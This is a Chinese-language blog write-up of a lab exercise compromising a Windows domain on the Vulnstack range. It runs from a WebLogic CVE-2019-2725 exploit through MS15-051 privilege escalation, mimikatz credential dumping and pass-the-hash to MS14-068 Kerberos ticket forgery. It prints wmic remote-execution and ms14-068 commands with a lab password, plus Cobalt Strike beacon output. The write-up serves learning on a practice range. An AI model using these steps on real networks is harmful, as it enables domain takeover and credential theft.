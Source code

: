 ```yaml
---
layout:     post
title:    域渗透-Vulnstack靶机学习  
subtitle:   域渗透学习
date:       2019-12-08
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
---
```

# 域渗透-Vulnstack靶机学习  

### 简介
vlunstack是红日安全团队出品的一个实战环境，具体介绍请访问：[http://vulnstack.qiyuanxuetang.net/vuln/detail/3/](http://vulnstack.qiyuanxuetang.net/vuln/detail/3/)  
基本结构：   
内网网段：10.10.10.1/24  
DC
IP：10.10.10.10  
系统：Windows 2012(64)  
应用：AD域  
WEB  
IP：10.10.10.80  
应用：Weblogic 10.3.6，MSSQL 2008  
PC  
IP：10.10.10.201  
基本拓扑：  
![191208_1](/img/191208_network.png)  
注意：WEB机器的服务要手动开启，运行C:\Oracle\Middleware\user_projects\domains\base_domain\startWebLogic.bat。  

### 外网  
已经知道了是7001的weblogic，就免过一些扫描端口的步骤了。  
直接访问web。  
![191208_2](/img/191208_weblogic.png)  
试了下常见的如weblogic/weblogic的弱口令，无果。掏出工具扫一下，看看存不存在对应的漏洞。  
![191208_3](/img/191208_weblogicscan.png)  
存在一个CVE-2019-2725，上github上找找有没有对应的exp。  
找到一个以后测试一下，没有问题。   
![191208_4](/img/191208_whoami.png)  
尝试返回一个beacon或者msf的会话，简单测试都不行。看了下有360.  
![191208_5](/img/191208_360.png)  
直接要远程下载payload的姿势很多都被ban了。只能重新上传shell，通过shell上传payload。  
这不是重点，所以我是直接360放行了的下载，payload是免杀过的。  
  
### 内网  
一共就三台机器，这里就略去了刺探扫段的过程。  
重新整理下WEB机器的信息。  
根据ipconfig /all中DNS并不难看出10.10.10.10是域控。  
![191208_6](/img/191208_DCip.png)  
确认下：  
![191208_7](/img/191208_DCip2.png)  
没问题，查下域管账户。  
![191208_8](/img/191208_DCadmin.png)  

#### 提权
直接尝试先把会话派生给msf。  
![191208_9](/img/191208_spawn.png)   
直接getsystem失败了,算了放弃用msf提权了，用了cs的拓展脚本elevatekit，ms15-051直接提权。  
![191208_10](/img/191208_ms15051.png)  
#### 读密码
mimikatz导出下：  
![191208_11](/img/191208_mimikatz.png)  

#### 打域控
尝试了pth，看起来失败了对吧。    
![191208_12](/img/191208_pth.png)  
但是再一看能访问域控上的资源了，直接IPC$连接。  
![191208_13](/img/191208_ipc.png)  
直接用copy命令把payload传上去。  
![191208_14](/img/191208_copy.png)  
然后用wmic去执行。   
```
shell wmic /node:10.10.10.10 /user:de1ay /password:1qaz@WSX process call create "c:\windows\temp\1.exe"
```
很遗憾发现不出网。  
可以用隧道出来，但是要重新生成paylaod。  
这个时候用cs的一个特殊的beacon，smb beacon。  
创建一个新监听->smb，然后选择已有beacon派生。    
![191208_15](/img/191208_spawnsmb.png)  
然后会连接一个beacon。  
![191208_16](/img/191208_smbbeacon.png)  
再用这个去连接域控，可以成功返回beacon了。  
![191208_17](/img/191208_DCbeacon.png)  
然后就是导hash一条龙。  

#### 全穿
emmm在登录pc的过程中有点问题，一直返回不了beacon，但是已经有域控了其实都是一样的。这里就不再演示了。    

### MS14-068
因为前面比较巧合，刚好在web机器上读取到了有域管权限de1ay的账号密码，假定没有的话，通过mssql账号去拿域控则需要通过ms14-068去完成。  
这里我就简单讲一下，用到工具[ms14-068利用工具](https://github.com/mubix/pykek)，[KrbCredExport](https://github.com/rvazarkar/KrbCredExport)将ccache转换成ticket。  
前者使用命令：
```
python ms14-068.py -u mssql@de1ay.com -s SID -p 1qaz@WSX -d 10.10.10.10
```
然后在CS中执行：  
```
kerberos_ticket_purge  #清空票据
kerberos_ticket_use  mssql.ticket
```
然后就可以访问了，也是有了域管权限了。  
```
beacon> shell dir \\DC.de1ay.com\C$\
[*] Tasked beacon to run: dir \\DC.de1ay.com\C$\
[+] host called home, sent: 65 bytes
[+] received output:
 驱动器 \\DC.de1ay.com\C$ 中的卷没有标签。
 卷的序列号是 92FD-8733

 \\DC.de1ay.com\C$ 的目录

2019/09/08  18:57    <DIR>          101cde781c961a208b
2019/12/04  20:39            10,240 downloader.exe
2013/08/22  23:52    <DIR>          PerfLogs
2019/12/08  15:53    <DIR>          Program Files
2013/08/22  23:39    <DIR>          Program Files (x86)
2019/09/09  10:47    <DIR>          Users
2019/12/08  18:47    <DIR>          Windows
               1 个文件         10,240 字节
               6 个目录 54,577,033,216 可用字节

```

### 总结
有些地方都是太取巧了，实际中会更困难，但是用来学习下这个域渗透的基本流程还是可以的。没有涉及到权限维持的内容。这个内容在平常的更新中还会补充几个常用的方式。    